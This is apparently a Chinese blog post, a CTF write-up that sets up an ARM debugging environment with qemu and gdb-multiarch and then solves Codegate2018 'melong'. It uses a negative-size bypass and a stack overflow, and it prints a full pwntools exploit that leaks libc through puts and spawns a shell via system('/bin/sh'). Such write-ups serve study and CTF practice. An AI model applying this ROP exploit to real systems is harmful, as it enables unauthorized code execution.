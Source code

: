 ```yaml
---
layout:     post
title:      arm架构 pwn入门之路
subtitle:   学习arm架构下pwn题目的调试
date:       2020-11-16
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - arm pwn
    - wp

---
```


要期中考试了，水一篇ARM

## 环境搭建

网上的师傅们都讲的很详细了

我是看着[这个师傅的博客](https://www.jianshu.com/p/a7e2da50263e)装的环境

### 安装qemu

```shell
sudo apt-get install qemu
sudo apt-get install qemu-system qemu-user-static binfmt-support
```

### 安装依赖

```shell
sudo apt-get install -y gcc-arm-linux-gnueabi
sudo apt-get install qemu libncurses5-dev gcc-arm-linux-gnueabi 
sudo apt-get install build-essential synaptic gcc-aarch64-linux-gnu 
#sudo apt-get install gdb-arm-none-eabi
#sudo apt-get install eclipse-cdt
```

### 安装gdb-multiarch

```shell
sudo apt-get install gdb-multiarch
```



## 例题复现

### Codegate2018_melong

题目有libc和ld文件

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6aescr7j30km07smyx.jpg)

32位的arm小端序程序，只开启了NX保护

调试与mips下差不多

```shell
qemu-arm-static -L ./ ./melong
```

或者与pwntools联动

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1234", "-L", "./", "./melong"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr5ukg64wj30u00uc148.jpg)

有个菜单，以为是堆题，实际上是栈溢出

需要先check后才能进行其他操作

函数比较多，漏洞在write_diary函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67ufzklj31d90u0ais.jpg)

write_diary函数的第一个参数控制无符号整数nbyte，也就是read可以向栈中写入的字节，可以从mian函数中看到，就是PT函数的返回值，进入PT函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67jclbej31d30u0k28.jpg)

发现整型返回值可以由用户输入，但是要绕过`ptr == (void)exc2`的检查，追踪exc2发现对其操作是在check函数的子函数get_result函数里

check函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6sekcsjj31db0u0wql.jpg)

get_result函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr7ayqklfj30u01wbayd.jpg)

check函数限制只能check两次，而这个exc2应该是保存第二次check后bmi值的地方，要实现分配的chunk地址相等似乎有些困难，而且如果分配一个比较大的数字，需要等待sleep函数执行很久

但是看PT函数中的分支

```c
if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
```

在for循环的条件中用了强制类型转换，将size转换为无符号整数

如果让size等于-1的话，malloc会请求失败返回`NULL`，也就是0，而在第一次check之后exc2正好也是0

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr76g415pj310b0u07e9.jpg)

即绕过检查，又不用等待sleep函数，在write_diary函数中就可以随便写了

cyclic计算偏移后泄露地址

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

发现程序会崩溃，是因为puts函数在返回的时候并不是`pop pc`，而是`pop	{r4, r5, r6, r7, r8, r9, r10, pc}`

所以需要在前面补充一些垃圾数据,才能返回main函数

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)+p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

之后就是正常的rop了

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys

context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    io = remote("",)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1237", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

def check(height, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(" : ", str(height))
    io.sendlineafter(" : ", str(weight))

def PT(size):
    io.sendlineafter(":", "3")
    io.sendlineafter("?\n", str(size))

def write(payload):
    io.sendlineafter(":", "4")
    io.send(payload)

pop_r0_pc = 0x00011bbc

check(1.76,103)
PT(-1)

pd = 'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7 + p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

check(1.82, 60)
PT(-1)
pd = 'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search("/bin/sh"))) + p32(libc.sym['system'])
write(pd)
io.sendlineafter(":", "6")

io.interactive()
```





